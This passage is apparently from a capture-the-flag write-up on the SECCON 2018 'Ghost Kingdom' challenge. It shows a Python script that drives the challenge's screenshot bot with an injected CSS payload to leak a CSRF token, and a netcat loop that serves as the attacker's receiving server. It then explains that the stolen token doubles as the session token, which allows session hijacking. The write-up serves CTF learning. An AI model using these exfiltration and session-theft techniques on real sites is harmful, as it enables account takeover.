 ```python

login_url = "http://ghostkingdom.pwn.seccon.jp/?user="+username+"&pass="+password+"&action=login"
message = "http://ghostkingdom.pwn.seccon.jp/?url=http%3A%2F%2Flvh.me%2F%3Fuser%3D"+username+"%26pass%3D"+password+"%26action%3Dmsgadm2%26css%3D"+payload+"%26msg%3Dpwned&action=sshot2"

req = requests.Session()
req.get(login_url)

r = req.get(message)
print(r.text)

while "wait" in r.text:
    print("Waiting...")
    time.sleep(5)

    req = requests.Session()
    req.get(login_url)
    r = req.get(message)
```

Server side we used netcat in a while loop with a tiny webpage to speed up the above script so the bot won't hang waiting for a non-existent background image.

```bash
while true; do { echo -e 'HTTP/1.1 200 OK\r\n'; echo -e "THINGS\n\r\n"; } | nc -lv 8001 -q 1; done
```

If you felt like it, netcat in a loop nicely serves as a very quick and dirty static HTML webserver.


One catch being that we can only exfiltrate data present in the DOM of the page; there isn't a way to arbitrarily get pages or do anything _really_ interesting. There was only one thing we can exfiltrate, and that was the CSRF token which is _dull and boring and not fun_. At this point we started to get frustrated. It felt like we had a lot of the pieces! Things had been fitting nicely,
but we just need one more. To recap what we know:

1. We can force the local screenshot bot to login as a local user
2. Local users can use the tantalising "Upload Image" functionality.
3. We can craft a payload that runs on the same domain to steal DOM data from the messaging page
4. The only thing we can steal is a CSRF token

The missing piece it turned out was discovered by chance! Observing requests and responses in our lovely Burp Repeater revealed something astounding, you won't believe it, _another clickbait clause_. Your CSRF token on the page IS THE SAME AS YOUR SESSION TOKEN LOLWUT. Well lemme tell you this was a rewarding 1hr slog of staring at HTTP requests.


Combining all of the above, by stealing the bot's CSRF token we'll have it's session token as well! But we still won't be a local user, _*OR WILL WE*_? It turns out, however, that the page only checks if you are logged in to the local network at login time, and by stealing the screenshotter's CSRF token and by extension session token we're treated as a local user, even though we most definitely are not.

![logged_in]({{site.url}}/images/seccon18/unlocked.png)
